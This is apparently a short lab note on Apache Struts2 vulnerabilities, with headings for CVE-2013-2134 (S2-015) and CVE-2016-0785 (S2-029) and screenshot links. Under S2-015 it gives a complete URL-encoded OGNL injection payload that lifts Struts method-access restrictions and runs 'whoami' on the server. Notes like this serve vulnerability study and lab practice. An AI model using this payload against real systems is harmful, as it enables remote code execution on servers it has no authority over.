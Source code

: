 

## CVE-2013-2134 S2-015

%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23m.setAccessible%28true%29%2C%23m.set%28%23_memberAccess%2Ctrue%29%2C%23q%3D@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%2C%23q%7D.action

![image-20230711165738175](%E9%9D%B6%E5%9C%BA.assets/image-20230711165738175.png)



## CVE-2016-0785 s2-029

![image-20230711170026843](%E9%9D%B6%E5%9C%BA.assets/image-20230711170026843.png)
